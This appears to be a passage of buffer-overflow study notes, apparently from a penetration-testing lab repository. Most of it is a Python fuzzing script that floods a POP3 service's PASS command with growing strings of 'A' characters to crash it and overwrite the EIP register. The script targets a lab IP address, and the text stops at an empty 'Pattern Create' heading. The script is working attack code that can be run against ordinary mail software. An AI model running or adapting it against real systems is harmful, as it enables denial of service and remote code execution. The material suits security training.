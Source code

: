 ## Buffer Overflows 

#### fuzzing.py 
This is desigend to crash a service in order to try to overwrite the EIP register

```
#!/usr/bin/python
import socket

buffer=["A"]
counter=100

while len(buffer) <=30:
	buffer.append("A"*counter)
	counter=counter+200

for string in buffer:
	print "Fuzzing Pass with %s bytes" % len(string)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect = s.connect(("10.11.8.145", 110))
	s.recv(1024)
	s.send("USER test\r\n")
	s.recv(1024)
	s.send("PASS " + string + "\r\n")
	s.send("QUIT\r\n")
	s.close()
```


#### Pattern Create

